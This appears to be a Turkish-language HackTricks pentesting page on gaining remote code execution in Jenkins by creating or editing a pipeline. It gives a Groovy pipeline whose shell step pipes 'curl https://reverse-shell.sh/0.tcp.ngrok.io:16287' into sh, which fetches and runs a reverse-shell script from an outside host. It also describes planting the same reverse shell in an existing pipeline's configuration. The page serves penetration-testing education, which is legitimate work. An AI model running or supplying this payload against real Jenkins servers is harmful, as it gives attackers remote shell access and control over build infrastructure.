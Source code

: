 # Jenkins RCE Creating/Modifying Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Yeni Bir Pipeline Oluşturma

"Yeni Öğe" ( `/view/all/newJob` adresinde erişilebilir) kısmında **Pipeline** seçin:

![](<../../images/image (235).png>)

**Pipeline bölümünde** **reverse shell** yazın:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Son olarak **Kaydet** ve **Şimdi Oluştur** butonuna tıklayın, ve pipeline çalıştırılacaktır:

![](<../../images/image (228).png>)

## Bir Pipeline'ı Değiştirme

Eğer yapılandırılmış bir pipeline'ın yapılandırma dosyasına erişiminiz varsa, sadece **ters shell'inizi ekleyerek değiştirmeniz** yeterlidir ve ardından çalıştırabilir veya çalıştırılmasını bekleyebilirsiniz.

{{#include ../../banners/hacktricks-training.md}}
